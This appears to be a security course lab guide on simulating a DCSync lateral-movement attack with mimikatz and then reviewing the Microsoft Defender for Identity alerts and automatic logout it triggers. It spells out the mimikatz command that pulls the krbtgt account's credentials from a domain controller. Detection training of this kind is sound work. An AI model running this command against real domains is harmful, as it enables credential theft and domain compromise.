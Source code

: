 # Lab 14: Simulate and Detect Lateral Movement Attacks `(Read-Only)`

In this task, you will simulate a Lateral Movement attack and detect it using Microsoft Defender for Identity. Please note that this is a `read-only` task, as you will be logged out of your virtual machine during the attack simulation—this is a security measure enforced by Defender for Identity.

> **Note:** This exercise is **Read-only** because the tool used below is blocked by Microsoft Defender. If this software is used for any malicious activity, Microsoft Defender will flag the user as a threat, resulting in an automatic logout from the virtual machine. The user will not be able to log in again.

1. Open **PowerShell (Admin)** and navigate to the below mentioned directory.

   ```powershell
   cd C:\MimikatzLab\mimikatz-master\mimikatz-master\x64
   ```

1. In the same PowerShell session, run the below command to run the mimikatz application

   ```powershell
   mimikatz.exe 
   ```

1. Simulate a DC Sync attack and extract the credentials of the krbtgt account.

   ```shell
   lsadump::dcsync /domain:yourdomain.com /user:krbtgt
   ```

1. Now you can check your alerts in the Microsoft Defender portal, navigate to **Incidents & alerts** in the left-hand navigation pane.

   ![](../media/E1T3S3upd1.png)

1. Click **Alerts** to view the alerts queue.

1. You will find alerts with the below names

   - **Lateral movement using remote logon by contained user blocked**
   - **Lateral movement using RDP blocked**

       ![](../media/E1T3S3upd.png)

       > **Note:** The user will be logged out of the virtual machine as part of the containment measures initiated by the Defender in response to the user's attempted lateral movement attack.

## Review

In this lab, you have completed the following tasks:

- Simulated a lateral movement attack using the DC Sync technique to test Defender for Identity detection.  

### You have successfully completed the lab. Click on **Next >>** to proceed with the next Lab.

![](../media/rd_gs_1_9.png)

